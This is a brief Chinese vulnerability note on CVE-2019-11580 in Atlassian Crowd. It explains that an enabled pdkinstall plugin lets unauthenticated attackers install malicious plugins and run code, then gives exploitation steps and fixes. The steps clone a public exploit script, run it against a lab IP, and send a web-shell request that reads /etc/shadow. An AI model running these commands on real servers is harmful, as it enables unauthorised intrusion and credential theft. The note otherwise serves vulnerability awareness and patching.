 ### 一 漏洞描述
Atlassian Crowd是一套基于Web的单点登录系统。该系统为多用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。

Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了pdkinstall开发插件，使其存在安全漏洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件，执行任意代码/命令，从而获得服务器权限。

### 二 漏洞利用
漏洞利用脚本github地址：https://github.com/jas502n/CVE-2019-11580

1. git clone https://github.com/jas502n/CVE-2019-11580
2. cd CVE-2019-11580/
3. python CVE-2019-11580.py http://192.168.18.138:8095
4. curl http://192.168.18.138:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow

### 三 漏洞修复
设置访问/crowd/admin/uploadplugin.action的源ip。

升级最新版本(3.5.0以上)。

> 参考链接  
> https://www.bilibili.com/read/cv16802957
